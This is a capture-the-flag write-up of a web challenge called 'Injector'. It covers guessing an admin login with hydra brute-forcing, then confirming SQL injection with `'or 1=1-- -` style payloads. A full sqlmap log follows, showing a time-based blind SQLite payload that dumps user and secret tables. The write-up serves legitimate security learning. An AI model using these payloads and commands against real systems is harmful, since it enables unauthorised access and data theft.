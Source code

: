 ```yaml
---
title: Injector
author: j053
date: 2025-08-11 11:04:00 +0300
categories: [writeups, Web]
tags: [Chasing Flags Arise CTF, ctfs, Blind SQLi ]
image: /assets/img/blog/arise.png
---
```



Apologies for publishing this write-up after the CTF. The challenge creators have since taken the challenges offline, so I’ll be recreating this write-up from memory. NB: Solved using the uninted way.

To begin, the challenge description (paraphrased) essentially stated: "Chain the vulnerabilities to obtain the flag."

When we visit the given link (http://52.209.211.118:6004/) we are presented with a login page.

I attempted multiple login bypass techniques including SQLi payloads like `'or 1=1-- -`  but each attempt resulted in a `Connection error.` message.

After some thought, the only logical next step was to brute-force the login. Why? Because it was the last trick I had left in my toolkit. (Turns out from the official writeup, we needed to use LDAP injection for authentication bypass)


So, I fired up `hydra`, though if you have the Pro version of Burp Suite, you could just as well use Burp Intruder.

As you probably know, having a valid username makes the job much easier. In most web applications, there’s a good chance you’ll find a default username like `Administrator` or `admin`. In our case, I was fortunate in guessing `admin` and it worked on the first try, and the password was hidden behind five asterisks `*****`.

![simulation of how hydra is used for bruteforcing Login pages](/assets/img/blog/image.png)

With that password, I logged in as admin. 

Here, we are given an input field to change the Access ID,

![Image Courtesy of Michael Khanda](/assets/img/blog/image-2.png)

![Img Courtesy of c1ph3rbnuk ](/assets/img/blog/image-1.png)

After experimenting with a few payloads, including XSS and SSTI, I discovered the application was vulnerable to SQL injection. When I modified the user ID with the payload `'or 1=1-- -`, it returned an empty user ID, whereas `'or 1=2-- -` produced no change.

Next, it was time for `sqlmap` to come to the rescue. Initially, I ran into issues with sqlmap failing to detect the backend DBMS though it eventually picked the `sqlite` database.

I first saved the request as a req.txt file to carry with me the aythentication tokens.

![req.txt](/assets/img/blog/image-3.png)

Now using this command `sqlmap -r req.txt --level=5 --risk=3 --time-sec=10`, I was able to get the the name of the database `SQLite_masterdb`

The only thing left was to dump the secret..I however dumped everything just to see the other user we missed during `hydra` bruteforce.

```sh
➜  web sqlmap -r req.txt -D SQLite_masterdb --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:13:51 /2025-08-09/

[12:13:51] [INFO] parsing HTTP request from 'req.txt'
[12:13:51] [INFO] resuming back-end DBMS 'sqlite'
[12:13:51] [INFO] testing connection to the target URL
got a 302 redirect to 'http://52.209.211.118:6003/'. Do you want to follow? [Y/n] n
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: new_username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: new_username=kaka' AND 3133=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ltNL
---
[12:13:53] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[12:13:53] [INFO] fetching tables for database: 'SQLite_masterdb'
[12:13:53] [INFO] fetching number of tables for database 'SQLite_masterdb'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
.............................. (done)
[12:14:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:14:12] [INFO] retrieved:
[12:14:16] [INFO] adjusting time delay to 4 seconds due to good response times
users
[12:15:26] [INFO] retrieved: secrets
[12:16:54] [INFO] retrieved: CREATE TAB
[12:19:21] [ERROR] invalid character detected. retrying..
[12:19:21] [WARNING] increasing time delay to 5 seconds
LE user
[12:21:26] [ERROR] invalid character detected. retrying..
[12:21:26] [WARNING] increasing time delay to 6 seconds
s (username TEXT)
[12:25:56] [INFO] fetching entries for table 'users'
[12:25:56] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[12:25:56] [INFO] retrieved: 2
[12:26:05] [INFO] retrieved: admin
[12:27:06] [INFO] retrieved: bob
Database: <current>
Table: users
[2 entries]
+----------+
| username |
+----------+
| admin    |
| bob      |
+----------+

[12:27:44] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/j053/.local/share/sqlmap/output/52.209.211.118/dump/SQLite_masterdb/users.csv'
[12:27:44] [INFO] retrieved: CREATEpersonnel TABLE secrets (flag TEXT)
[12:34:57] [INFO] fetching entries for table 'secrets'
[12:34:57] [INFO] fetching number of entries for table 'secrets' in database 'SQLite_masterdb'
[12:34:57] [INFO] retrieved: 1
[12:35:02] [INFO] retrieved: ctf{chasing_flags_injections_everywhere}
Database: <current>
Table: secrets
[1 entry]
+------------------------------------------+
| flag                                     |
+------------------------------------------+
| ctf{chasing_flags_injections_everywhere} |
+------------------------------------------+

[12:45:30] [INFO] table 'SQLite_masterdb.secrets' dumped to CSV file '/home/j053/.local/share/sqlmap/output/52.209.211.118/dump/SQLite_masterdb/secrets.csv'
[12:45:30] [INFO] fetched data logged to text files under '/home/j053/.local/share/sqlmap/output/52.209.211.118'

[*] ending @ 12:45:30 /2025-08-09/

➜
```

That was it. I was happy to have blooded the challenge..cheers to the author, I got the 3k plus airtime...thanks Chasingflags for the awesome CTF.